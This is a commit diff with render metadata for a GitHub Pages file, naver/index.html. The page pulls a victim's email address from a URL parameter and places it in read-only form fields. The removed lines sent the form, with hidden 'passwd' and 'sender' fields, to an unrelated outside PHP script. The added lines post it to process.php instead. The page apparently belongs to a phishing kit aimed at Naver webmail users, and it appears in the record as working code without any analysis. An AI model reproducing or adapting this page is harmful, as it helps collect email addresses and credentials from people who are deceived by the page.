

Before and after one commit to vetopia2025/vetopia2025.github.io, a plain HTML site: page naver/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/naver/index.html
+++ b/naver/index.html
@@ -2,38 +2,46 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8" />
-  <title>Split URL Email</title>
+  <title>Email, User & Domain</title>
   <style>
     body            { font-family: Arial, sans-serif; margin: 2rem; }
-    form            { max-width: 360px; border: 1px solid #ccc; padding: 1rem; border-radius: 6px; }
-    label           { display: block; margin-top: .9rem; font-weight: 600; }
+    form            { max-width: 400px; border: 1px solid #ccc; padding: 1rem; border-radius: 6px; }
+    .field          { margin-top: 1.1rem; }
     input[type=text]{ width: 100%; padding: .45rem .6rem; border: 1px solid #888; border-radius: 4px; }
-    button          { margin-top: 1.2rem; padding: .5rem 1.1rem; }
+    button          { margin-top: 1.4rem; padding: .5rem 1.1rem; }
   </style>
 </head>
 <body>
 
-<h2>Email pieces from URL</h2>
+<h2>Email data from URL</h2>
 
-<form action="https://ganpanmarthdesi.pro/z-php/wp-config-post.php" method="POST">
-  <label for="userInput">User part</label>
-  <input type="text" id="userInput"   name="user"   value="" readonly>
+<form action="process.php" method="POST">
 
-  <label for="domainInput">Domain part</label>
-  <input type="text" id="domainInput" name="domain" value="" readonly>
-  <input type="hidden" name="sender" value="Nate.com" readonly>
-  <input type="hidden" name="link" value="Nate.com" readonly>
-  <input type="hidden" name="passwd" value="Nate.com" readonly>
+  <div class="field">
+    <h3>Email: email</h3>
+    <input type="text" id="emailInput"  name="email"  value="" readonly>
+  </div>
+
+  <div class="field">
+    <h3>User part</h3>
+    <input type="text" id="userInput"   name="user"   value="" readonly>
+  </div>
+
+  <div class="field">
+    <h3>Domain part</h3>
+    <input type="text" id="domainInput" name="domain" value="" readonly>
+  </div>
+
   <button type="submit">Send to server</button>
 </form>
 
 <script>
-  /* 1. Grab ?login=... from the current URL */
+  /* 1) Read ?login=... */
   const qs       = new URLSearchParams(window.location.search);
-  const rawParam = qs.get('login');                         // e.g. "usr%40naver.com"
-  const email    = rawParam ? decodeURIComponent(rawParam) : '';
+  const rawLogin = qs.get('login');                        // e.g. "usr%40naver.com"
+  const email    = rawLogin ? decodeURIComponent(rawLogin) : '';
 
-  /* 2. Split into user + domain (first "@") */
+  /* 2) Split into user & domain */
   let user = '', domain = '';
   const at = email.indexOf('@');
   if (at !== -1) {
@@ -41,15 +49,16 @@
     domain = email.slice(at + 1);
   }
 
-  /* 3. Fill BOTH the property and the attribute so it shows up in the markup */
-  const userInput   = document.getElementById('userInput');
-  const domainInput = document.getElementById('domainInput');
+  /* 3) Fill inputs (property + attribute) */
+  function fill(id, value) {
+    const el = document.getElementById(id);
+    el.value = value;
+    el.setAttribute('value', value);  // keeps it in the HTML attribute
+  }
 
-  userInput.value            = user;
-  userInput.setAttribute('value', user);        // keeps it in the HTML attribute
-
-  domainInput.value          = domain;
-  domainInput.setAttribute('value', domain);    // keeps it in the HTML attribute
+  fill('emailInput',  email);
+  fill('userInput',   user);
+  fill('domainInput', domain);
 </script>
 
 </body>
```
